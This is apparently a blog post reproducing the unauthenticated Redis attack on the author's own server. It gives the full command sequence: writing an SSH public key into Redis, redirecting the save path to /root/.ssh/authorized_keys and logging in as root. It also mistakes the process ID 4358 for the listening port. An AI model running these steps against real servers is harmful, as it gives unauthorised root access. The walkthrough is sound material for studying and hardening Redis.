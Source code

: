 ```yaml
---
layout: post
title: "Redis Get Shell Vulnerability Reproduction"
subtitle: ''
author: "Xiping Hu"
header-style: text
tags:
- Redis
---
```


# Deploy Redis #

``` shell
root@server:~# wget http://download.redis.io/releases/redis-5.0.8.tar.gz
root@server:~# tar xzf redis-5.0.8.tar.gz
root@server:~# cd redis-5.0.8
root@server:~/redis-5.0.8# make
root@server:~/redis-5.0.8# make install
```

And we change nothing of `redis.conf`, using its default setting, disabling protected mode.

# Fire Up Redis #

``` shell
root@server:~# redis-server --daemonize yes --protected-mode no
```

See which address Redis is listening

``` shell
root@server:~# netstat -tulpn | grep redis
tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      4358/redis-server *
tcp6       0      0 :::6379                 :::*                    LISTEN      4358/redis-server *
```

The output showed that Redis is listening `0.0.0.0:4358`

# Turn off Firewall #

On Ubuntu server:

``` shell
root@server:~# ufw disable
```

On CentOS server:

``` shell
root@server:~# systemctl stop firewalld
```

Or you may allow port 4358 instead.

# Attack Procedure #

I assume that you have already had an ssh key, and the public key is located in `~/.ssh/id_rsa.pub`, the private key is located in `~/.ssh/id_rsa`.

We connect our Redis server without password:

``` shell
[hxp@hxp-arch ~]$ redis-cli -h 142.**.***.32
```

The connection was successful. Then we can push our ssh key to server by

``` shell
[hxp@hxp-arch ~]$ (echo -e "\n\n";cat ~/.ssh/id_rsa.pub;echo -e "\n\n") | redis-cli -h 142.**.***.32 -x set ssh-key
```

Log back to see if our injection was successful

``` shell
[hxp@hxp-arch ~]$ redis-cli -h 142.**.***.32
142.**.***.32:6379> get ssh-key
"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuQgS2UfoevBjEX7UTgpSPWx1aBHqMmynjK417hsz9UXNQNesKq/T****************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************= ********@***********\n"
142.**.***.32:6379> 
```

Then we detect which user Redis is running as

``` shell
142.**.***.32:6379> CONFIG GET dir
1) "dir"
2) "/root"
```

Fortunately Redis is running as root.

The last thing we need to do was to set our database file to `/root/.ssh/authorized_keys`, and save.

``` shell
142.**.***.32:6379> CONFIG SET dir /root/.ssh
OK
142.**.***.32:6379> CONFIG SET dbfilename authorized_keys
OK
142.**.***.32:6379> save
OK
142.**.***.32:6379> exit
```

After that, the ssh public key should be saved in `/root/.ssh/authorized_keys`

Log in to the server:

``` shell
[hxp@hxp-arch ~]$ ssh -i ~/.ssh/id_rsa root@142.**.***.32
```

Success. And we can see that our public key is inserted in `/root/.ssh/authorized_keys`

``` shell
root@server:~# cat /root/.ssh/authorized_keys 
REDIS0009�      redis-ver5.0.8�
�edis-bits�@�ctime�x��^used-mem¸
 aof-preamble���ssh-keyBD


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuQgS2UfoevBjEX7UTgpSPWx1aBHqMmynjK417hsz9UXNQNesKq/T****************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************= ********@***********



�=��u���root@server:~# 

```

